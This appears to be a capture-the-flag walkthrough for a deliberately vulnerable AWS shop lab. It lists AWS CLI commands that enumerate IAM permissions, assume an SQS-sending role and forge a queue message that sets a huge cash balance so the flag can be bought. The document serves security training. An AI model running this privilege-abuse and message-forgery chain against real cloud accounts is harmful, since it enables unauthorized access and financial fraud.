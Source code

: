 1. The attacker accesses the web page and identifies the features first
  
    [ page ] → what can do  
    /        → User can buy items.  
    /receipt → User can see the purchase.  
    /charge  → User can charge the cash.



  
2. The attacker checks the privileges it has
  
    ```bash
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
    # This command will give you the ARN & full name of you user.
    aws --profile [profile_name] sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
    # This command will view the permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [polict_name]
    ```  
    ※ Attacker finds that they have assume-role privileges for a particular role.  
    ※ Attacker looks for clues about how to attack using this privilege.
  

      
4. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service
  
    ※ The website has a github address exposed as an annotation.  
    → https://github.com/BoB12-C-G-V/FLAG-Shop
  
    < Code Analysis Results >- When charging the cash, a message is sent to the SQS service.  
    - The lambda function does not verify the received message.  
    - The message format is `{"charge_amount" : cash}`  
  
    ※ Attacker plans to forge the cache and send message to the SQS service.  
  

  
5. Assume the the sending message role about SQS service
    
    ```bash
    # This command will get you credentials for the role that can send message to SQS service
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials 
    aws configure --profile [assumed_profile_name]
    # This command will appends the obtained session token to the ~/.aws/credentials file
    echo "aws_session_token = {얻은 토큰}" >> ~/.aws/credentials
    ```


  
6. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue
    
    ```bash
    # This command wil get you queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    # This command wil sends a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```


  
7. Check the changed assets, purchase FLAG and check the secret-string
